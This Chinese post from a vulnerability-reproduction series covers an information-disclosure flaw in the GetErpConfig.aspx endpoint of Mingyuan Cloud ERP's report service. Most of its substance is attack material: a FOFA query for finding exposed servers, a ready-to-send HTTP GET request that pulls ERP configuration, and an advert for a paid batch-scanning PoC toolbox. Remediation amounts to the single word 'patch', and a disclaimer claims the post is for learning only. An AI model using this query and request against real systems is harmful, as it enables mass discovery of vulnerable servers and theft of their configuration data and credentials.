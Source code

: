 #  明源云ERP报表服务GetErpConfig.aspx接口存在敏感信息泄露漏洞 附POC   
2024-10-21更新  南风漏洞复现文库   2024-10-21 21:56  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 明源云ERP报表服务简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
明源云ERP报表服务  
## 2.漏洞描述  
  
明源云ERP报表服务GetErpConfig.aspx接口存在敏感信息泄露漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
明源云ERP报表服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk2hpOEIkhibIEGekLrZ0NAeHicKBJhw1zqdGia6xOvchR1R2yJtz8HqGe1A/640?wx_fmt=png&from=appmsg "null")  
  
明源云ERP报表服务GetErpConfig.aspx接口存在敏感信息泄露漏洞  
## 4.fofa查询语句  
  
body="报表服务已正常运行"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/service/Mysoft.Report.Web.Service.Base/GetErpConfig.aspx?erpKey=erp60  
  
漏洞数据包：  
```
GET /service/Mysoft.Report.Web.Service.Base/GetErpConfig.aspx?erpKey=erp60 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk2ABSczvBwQ4MmnJ7vqn1MLG2JhXJYAdx60AERLvjFicosriaKtmh5NY3Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk2WBdCMdgye3aFf0ibcnia4cjZ05ia90iaA6n8G8OvE420kiao8K4T9FWuBPw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk2lOQ3IEyq1ECjguLhrzGFkY20aG1NLQkzAgN7YwXaaqI5nPZ3KuGcbg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk21UEViasJvkpH7YU9eENfDm0Kbho9Qxf2NUTAAj8toptavBDcMuvJ1ibQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk2tYhnb3tIlz3lcfWZniaGXECCbexJeDBnqj1egYkjPP7YtjP5xuVqMVw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yib0qc3e4pjEVoCkpIxxEk2FpU75pT4ib94CAibkUNa4emall71Iib5XKBEwFyFq5MicpXGPUhHACXcWA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[officeWeb365 PW/SaveDraw接口存在任意文件上传漏洞 -老漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487612&idx=1&sn=7eab6f76a8eefdfae301fbce1d4b8484&chksm=974b9d7ba03c146da28d4bad3e7de866b717612911e05fa549cef911510b6dba50d9f157f0ad&scene=21#wechat_redirect)  
  
  
